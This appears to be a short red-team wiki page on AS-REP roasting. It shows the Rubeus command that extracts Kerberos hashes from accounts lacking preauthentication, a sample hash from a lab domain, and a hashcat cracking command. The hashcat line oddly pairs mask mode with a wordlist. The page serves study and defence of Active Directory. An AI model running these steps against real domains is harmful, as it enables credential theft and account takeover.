

# AS-REP Roasting

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:


Those hashes can then be cracked offline, similarly to how it's done in [T1208: Kerberoasting](t1208-kerberoasting.md).

## Execution


```text
.\Rubeus.exe asreproast
```



### Cracking AS-REP Hashes with HashCat

Say this is the hash we get for the potential victim:

```text
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA
```

We need to insert `23` after the `$krb5asrep$` like so:

```text
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da
```

We can then crack it:


```csharp
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```





## References








